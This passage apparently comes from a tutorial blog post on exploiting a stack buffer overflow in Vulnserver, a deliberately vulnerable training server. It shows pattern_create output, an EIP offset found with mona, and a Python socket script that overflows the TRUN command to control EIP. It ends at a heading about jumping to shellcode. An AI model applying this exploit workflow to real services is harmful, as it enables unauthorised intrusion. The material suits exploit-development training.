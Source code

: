```
└─▪ ./pattern_create.rb -l 4000
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6.........
```

Send this unique string to the application instead of all A's

![vulnserver 5](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/vulnserver/vulnserver5.png)

Now you can see the EIP register has been overwritten with 386F4337, this is a section of the unique pattern we sent, you can use the mona.py Immunity debugger extension as set up in the previous post (https://fullpwnops.com/immunity-windbg-mona/) to calculate this buffer size.

Use the command `!mona findmsp` to have mona calculate exactly how much data it took to overwrite the EIP register.

![vulnserver 6](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/vulnserver/vulnserver6.png)

Now we know it took exactly 2003 bytes to fill up the input buffer, so if we send 2007 bytes, the 4 bytes after the buffer are going to overwrite the EIP register.

Add this to our exploit script.

```python
import socket

victim_host = "10.0.0.161"
port = 9999

payload = "A" * 2003 # calculated buffer
payload += "B" * 4   # control EIP with 4 B's , translated into 41 in hex

buffer_exploit = "TRUN /.:/" + payload

expl = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
expl.connect((victim_host, port))
expl.send(buffer_exploit)

print("[x] Sent TRUN + malicious payload to the victim")
print("[!] You may need to send it multiple times")
expl.close()
```

## Control EIP

Now when you re-send your exploit to the application, you can see the EIP register is now 42424242, which is our 4 B's send after our A's, we control the EIP register!

![vulnserver 7](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/vulnserver/vulnserver7.png)

## JMP to our shellcode
